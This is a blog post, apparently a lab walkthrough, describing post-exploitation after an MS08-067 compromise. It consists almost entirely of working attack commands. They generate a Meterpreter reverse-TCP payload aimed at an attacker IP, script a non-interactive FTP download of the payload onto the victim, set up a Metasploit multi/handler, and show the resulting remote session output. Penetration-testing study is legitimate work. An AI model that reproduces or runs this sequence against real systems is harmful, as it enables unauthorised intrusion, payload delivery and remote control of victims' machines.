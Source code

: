 ```yaml
---
published: true
layout: post
title: Meterpreter up and running post exploitation
---
```




I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.  

**Attacker**:  Start the ftp service on my attacking machine

    service pure-ftpd start

**Attacker**:  Create a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory

    msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
    
**Victim**:  Exploit MS08-067 refer to 

http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/

**Victim**:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands.  *Note the lack of spaces after the echo command*:

    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get iambad.exe>> ftp.txt
    echo bye>> ftp.txt

**Victim**:  Execute the ftp command passing the ftp.txt as a parameter

    ftp -s:ftp.txt

**Attacker**:  Start msfconsole on attacking machine

    msfconsole
    
**Attacker**:  Start multi/handler, set LHOST, set LPORT, and start handler

    msf > use exploit/multi/handler
    msf exploit(handler) > set LHOST 192.168.30.36
    msf exploit(handler) > set LPORT 443
    msf exploit(handler) > run
    [*] Started reverse handler on 192.168.30.36:443 
    [*] Starting the payload handler...
    
**Victim**:  Execute payload

    iambad.exe

**Attacker**:  Meterpreter session obtained

    [*] Sending stage (770048 bytes) to 192.168.31.205
    [*] Meterpreter session 1 opened (192.168.30.36:443 -> 192.168.31.205:2707) at 2015-06-05 08:06:04 -0400
